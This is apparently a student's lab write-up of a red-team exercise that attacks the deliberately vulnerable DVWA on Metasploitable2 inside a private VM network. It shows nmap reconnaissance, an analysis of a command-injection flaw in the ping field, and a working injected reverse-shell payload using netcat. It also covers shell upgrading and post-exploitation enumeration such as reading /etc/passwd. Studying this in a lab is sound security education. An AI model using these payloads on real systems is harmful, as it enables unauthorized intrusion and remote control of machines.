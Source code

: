 This lab uses [the N2H (Noobs 2 Hackers) Red Team Guide from ODU's Cybersecurity Student Association (CS2A) ](https://github.com/Cybersecurity-Student-Association/n2h-red/tree/main/01-Reverse%20Shells) 
## Intelligence Gathering
### Open Ports
Running the command 
```bash
sudo nmap -sV -sS -sC -A 192.168.56.117 -p-
```
(the IP address of my SEED VM ```192.168.56.117```) results in the following:
```
Nmap scan report for 192.168.56.117
Host is up (0.00026s latency).
Not shown: 65531 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91:28:9a:6a:5e:b3:bf:cd:e5:36:3e:e8:13:ab:66:ba (RSA)
|   256 1a:fe:85:67:97:e9:47:0d:f7:6c:34:3c:35:4a:27:8d (ECDSA)
|_  256 53:fa:03:b6:15:44:8c:fd:4b:e1:76:2e:ef:12:a7:c3 (ED25519)
23/tcp open  telnet  Linux telnetd
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) DAV/2)
|_http-server-header: Apache/2.2.8 (Ubuntu) DAV/2
|_http-title: Metasploitable2 - Linux
MAC Address: 08:00:27:88:55:C9 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
192.168.56.111
TRACEROUTE
HOP RTT     ADDRESS
1   0.26 ms 192.168.56.117

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.47 seconds
```

Opening the HTTP service on port 
The default credentials for [Damn Vulnerable Web Application (DVWA)](https://github.com/digininja/DVWA) are `admin/password`

## Vulnerability Analysis
Going to the `Command Execution` tab in DVWA, there is a field allowing users to ping an IP address. A screenshot of the page: 
![](Command_Injection_Screenshot.png?raw=true)
The "View Source" button gives the source code of the page. The source code is:
```php
 <?php if (isset($_POST["submit"])) {
     $target = $_REQUEST["ip"];

     // Determine OS and execute the ping command.
     if (stristr(php_uname("s"), "Windows NT")) {
         $cmd = shell_exec("ping  " . $target);
         echo "<pre>" . $cmd . "</pre>";
     } else {
         $cmd = shell_exec("ping  -c 3 " . $target);
         echo "<pre>" . $cmd . "</pre>";
     }
 } ?> 
```
From the code above, we can see that the `ip` field is vulnerable to command injection. This is what is known at remote code execution (RCE). This essentially means that any commands can be run on the machine through the `ip` field. RCE vulnerabilities can be mitigated by sanitization of input. Input sanitization removes unsafe characters from inputs. In this case, the semicolon (`;`) gives the ability to exit the `ping` command and execute another command.  
## Exploitation - Reverse Shells
### Step 1 - The Listener
```bash
nc -lnvp 9001
```
The program `netcat` is used to listen for incoming connections on port 9001. Here is a breakdown of the command:
- `nc` - the program `netcat`
- `-l` - create a listener
- `-n` - use numeric-only IP addresses
- `-v` - verbose mode
- `-p` - a port number. I chose 9001
Note: While I explain the different modifiers separately, they can be combined into a group. Linux allows combinations of switches for faster execution.
### Step 2 - Exploit RCE to Initiate the Reverse Shell
[This Reverse Shell Generator](https://www.revshells.com/) gives multiple commands which will create a reverse shell back to the attacker. In the `ip` field on the page, I enter my chosen reverse shell command.  The following worked for me: 
```bash
; nc -c sh 192.168.56.111 9001
```
A breakdown of the command:
- `;` -  the semicolon ends the previous command.
- `nc` - the netcat command
- `-c sh` - the command to execute when the connection is successful
- `192.168.56.111` - the IP address of my attacker machine
- `9001` - the port on my attacker machine listening for incoming connections
To the victim, the command will look like this:
```bash
ping ; nc -c sh 192.168.56.111 9001
```
The `ping` command will execute, but it will have no IP address to ping. Following that, the reverse shell will execute. It will create a connection back to the listener on the attacker machine. 
### Step 3 - Upgrading the Shell
From the [guide](https://github.com/Daniel-Tomov/n2h-red/blob/main/01-Reverse%20Shells/README.md) :
>Reverse shells are useful, but they have some limitations. For example, the key combination `ctrl-C` is a very common way to terminate a command in the shell. But, if you try this key combination in the reverse shell, you'll kill the shell and have to reestablish that connection, which can sometimes be very cumbersome. A common technique to upgrade a reverse shell is to use the Python TTY module.

To "upgrade" the shell, I used the following command in the terminal on the attacker side:
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```
Then press \<ctrl-z\> to put the process in the background. \<ctrl-z\> puts me back to the regular Kali shell. Then I use
```bash
stty raw -echo; fg
```
and 
```bash
export TERM=xterm
```
to get a "full" shell with ctrl-c and ctrl-l support.
## Post Exploitation
Below are the answers to the post exploitation questions from the guide:
- How many other users are on this machine? How do you know?
In the screenshot below, I ran the command
```bash
cat /etc/passwd | grep -v -E "/bin/false|nologin"
```
to see which users are on the system. I excluded users with `/bin/false` and `/usr/sbin/nologin` as default shells because they cannot login. There is one account which is an exception. The `ftp` user has a shell of `/bin/false`, but it has a folder in the `/home` folder. 
![](Users.png?raw=true)
- Can we use the credentials we found earlier for anything? If so, for what?
I tried using the `admin/password` credentials from earlier to login into the `ftp`, `user`, and `service` accounts, but the password `password` did not work. 
- Are there any other listening services/ports? (hint: use the `ss` and `netstat` utilities)
Running netstat shows there many processes with open ports running on the machine.
![](netstat.png?raw=true)
- What is the IP address of the exploited machine? Is this address the same as the one you used to access the website? Why or why not? If not, what does this suggest?
The IP of the exploited machine in this case is the `metasploitable2` Docker container. It will have a different IP address than the machine the Docker container is running on. In my case, the SEED VM has an IP address of `192.168.56.117`, but the metasploitable2 container's IP address is `172.16.10.2`. Docker IP addresses are usually in this format (`172.17.0.0/16` but the `docker-compse.yml` file specifies the `172.16.0.0/16` network). This indicates the DVWA application I attacked is running inside a Docker container.
- What other programs are running? Do any of them jump out as privilege escalation vectors? i.e., if we exploit them for a shell, which user will be running that shell?
The screenshot below contains the running processes in the metasploitable2 container. The `root` user has some processes. Maybe they can be exploited to gain further access.
[](Running_Processes.png?raw=true)
